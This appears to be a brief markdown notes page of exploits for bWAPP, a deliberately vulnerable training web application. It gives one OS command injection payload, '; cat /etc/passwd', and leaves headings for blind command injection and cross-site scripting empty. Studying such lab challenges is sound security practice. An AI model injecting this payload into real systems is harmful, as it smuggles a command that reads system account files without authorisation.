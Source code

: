 # bWAPP - Exploits

### OS Command Injection (low)
```bash
; cat /etc/passwd
```

### OS Command Injection-Blind (low)


### Cross-Site Scripting -Reflected(*) (low)


### Cross-Site Scripting -Stored(*) (low)
